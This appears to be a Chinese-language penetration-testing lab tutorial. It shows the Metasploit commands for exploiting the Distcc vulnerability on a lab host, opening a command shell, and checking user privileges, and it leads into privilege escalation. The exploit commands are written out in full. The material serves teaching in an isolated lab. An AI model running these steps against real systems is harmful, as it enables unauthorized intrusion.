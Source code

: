 ![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1479890676283.png-wm)

现在两台实验环境都已经启动，我们可以开始渗透测试实验了。

## 三、 攻击进入目标主机

### 3.1 利用 Distcc 漏洞进入目标主机

利用 Distcc 漏洞这个实验，在上一节中，我们已经实践过了。在从实验楼登录 Kali  终端后，依次输入如下命令，攻陷所要渗透的目标主机：

```
# 打开 postgresql 服务
sudo service postgresql start

# 打开终端 MSF
sudo msfconsole

# 使用 use 命令对模块进行使用
use exploit/unix/misc/distcc_exec
 
# 利用 set 命令，设置渗透目标主机参数 RHOST 为 192.168.122.102
set RHOST 192.168.122.102

# 使用命令 exploit 命令，进行渗透攻击
exploit
```

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1483509960404.png-wm)


由攻击的 gif 图可以看出，目前已经成功建立了管道连接。其中值得注意的是，在攻击结束之后，会建立一个 `session` 保存当前的会话。gif 动图中显示的是，`Command shell session 4 opened` 是因为运行了四次攻击。

正常情况下，第一次输入攻击命令，你所见到的是：`Command shell session 1 opened`。

### 3.2 查看当前用户的权限

在成功地建立了管道连接之后，接下来可以对目标主机进行各种操作。在现实生产过程中，当渗透进入一个目标主机之后，我们首先要查看当前用户是不是 `root` 用户。利用命令 `whoami` 和 `id ` 可以查看当前用户是否是拥有管理员权限：

```
# 查看当前用户
whoami

# 输入命令 id 
id
```

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1483510378675.png-wm)


由上图可以看出，当前登录的用户为 `daemon`，id 并非为 0 ，0 为管理员用户，并非像我们之前那样，直接获取 root 权限。在真正的渗透测试过程中，非 root 权限的情况很多，这时候，为了完全掌控所渗透的目标主机，我们需要做的事情，就是提高当前登录用户的权限，简而言之，就是提权。

